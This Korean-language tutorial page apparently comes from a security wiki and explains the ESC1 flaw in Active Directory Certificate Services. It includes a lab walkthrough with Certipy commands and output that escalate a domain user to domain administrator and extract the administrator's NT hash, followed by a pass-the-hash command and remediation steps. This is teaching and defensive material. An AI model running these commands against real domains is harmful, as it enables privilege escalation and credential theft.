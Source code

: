 # ESC1

> 이 페이지와 하위 페이지들에 있는 ADCS와 관련된 개념 및 공격 방식은 모두 SpecterOps 사의 Will Schroeder 분과 Lee Christensen 분이 2021년에 작성하신 "[Ceritfied Pre-Owned](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)" 라는 백서를 기반으로 만들어졌습니다. 더 자세하게 알아보고 싶으신 분들은 레퍼런스 섹션의 백서를 참고해주시기 바랍니다.

### 개념&#x20;

ADCS의 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 라는  설정이  존재한다. 이 설정이 되어있는 취약  인증서 양식은 공격자 인증서 서명 요청을 보낼 때 자신이 원하는 유저를 주체로 특정해 보낼 수 있다. 예를 들자면,&#x20;

1. Choi -> CA: 저 인증서 서명 요청 드립니다. 근데 SAN (Subject Alternative Name) 란에는는 choi가 아니라 `Administrator@choi.local` 이라는 도메인 관리자로 해주세요.&#x20;
2. CA -> Choi: 네, 인증서 발급하겠습니다. 요청대로 SAN에는 도메인 관리자 유저 이름을 넣어서 발급해드릴게요.&#x20;
3. Choi: 감사합니다. - 일반 도메인 유저에서 도메인 관리자로 권한 상승 성공.&#x20;

어이가 없을 정도로 간단하고 위험한 설정이지만, 실제로 존재하는 설정이다.&#x20;

### 전제 조건&#x20;

1. `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 설정 활성화&#x20;
2. Manager Approval 설정 비활성화&#x20;
3. Authorized Signature 설정 비활성화&#x20;
4. 해당 인증서 양식에 공격자의 유저가 인증서 발급 권한 존재 &#x20;
5. CA 서버가 공격자의 유저에게 인증서 발급 권한을 허용

### 실습&#x20;

#### ESC 1 정보 수집&#x20;

Certipy 를 통해 정보 수집을 한 뒤, ESC1 에서 취약한 인증서 양식을 찾았다. Certipy 의 출력을 살펴본다.&#x20;

```
Certificate Templates
  0
    Template Name                       : macUsers
    Certificate Authorities             : choi-DC01-CA
    [ ... ]
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    [ ... ]
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Authorized Signatures Required      : 0
    Requires Manager Approval           : False
    [ ... ]
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CHOI.LOCAL\Domain Admins
                                          CHOI.LOCAL\Domain Users
                                          CHOI.LOCAL\Enterprise Admins
    [ ... ]
    [!] Vulnerabilities
      ESC1                              : 'CHOI.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

많은 정보가 있지만, ESC1 을 사용하는데 있어 필요한 전제 조건들 4개를 살펴보자.&#x20;

1. `Enrollee Supplies Subject: True - CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`  설정이 활성화 되어 있다.&#x20;
2. Requires Manager Approval: False  - 비활성화 되어 있다.&#x20;
3. Authorized Signature: 0  - 비활성화 되어 있다.&#x20;
4. Enrollment Rights - `Choi.local\Domain Users` - CA 서버와 인증서 양식에 공격자의 유저 발급 권한 존재. 공격자 뿐만 아니라 도메인 유저 전체가 이 인증서 양식을 통해 도메인 관리자 인증서를 발급 받을 수 있는 상태다.&#x20;

#### 공격&#x20;

1. Certipy 를 이용해 원하는 타겟 유저의 이름을 SAN 으로 지정해 인증서를 발급 받는다.&#x20;

```
$ certipy req -u <user> -p <pass> -ca <CA> -target <CA-FQDN> -template <취약한-양식-이름> -upn <타겟-유저> 

예) $ certipy req -u low@choi.local -p 'Password123!' -ca choi-DC01-CA -target dc01.choi.local -template macUsers -upn Administrator@choi.local -dns dc01.choi.local 
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully requested certificate
[*] Got certificate with multiple identifications
    UPN: 'Administrator@choi.local'
    DNS Host Name: 'dc01.choi.local'
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```

2\. 발급 받은 인증서는 유저 인증에 사용할 수 있다. 도메인 관리자의 NT 해시를 획득한다.&#x20;

```
$ certipy auth -pfx <#1의 인증서 파일 이름> -dc-ip <DC-IP> 

예) $ certipy auth -pfx administrator_dc01.pfx -dc-ip 192.168.40.150                         
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@choi.local'
    [1] DNS Host Name: 'dc01.choi.local'
> 0
[*] Using principal: administrator@choi.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@choi.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

3\. 도메인 관리자의 NT 해시를 이용해 인증한다.&#x20;

```
$ cme smb <DC-IP> -u Administrator -H <NThash> -d <domain>
```



### 대응 방안&#x20;

* ESC1의 근본적인 문제는 특정 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 플래그가 활성화 되어 있다는 것이다. 이를 해결한다.&#x20;
* 프로덕션 서버에서는 충분한 테스트를 거친 뒤 설정을 해제한다.&#x20;
* CA 서버 > `certtmpl.msc` > 인증서 양식 오른쪽 클릭 > Properties > `Subject Name` 탭 > Supply in Request 설정 해제&#x20;
* `Supply in Request` 가 꼭 필요하다면 Properties > Issuance Requirements > CA Certificate Manager Approval 을 설정해 인증서 관리자 계정이 허락을 해야 인증서가 발급되도록 바꾼다.&#x20;

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/esc1.png" alt=""><figcaption><p>CT-FLAG-ENROLLEE-SUPPLIES-SUBJECT 를 비활성화 한다</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Certificate Manager Approval 을 활성화 한다</p></figcaption></figure>





### 레퍼런스&#x20;



{% embed url="https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf" %}

{% embed url="https://github.com/ly4k/Certipy" %}
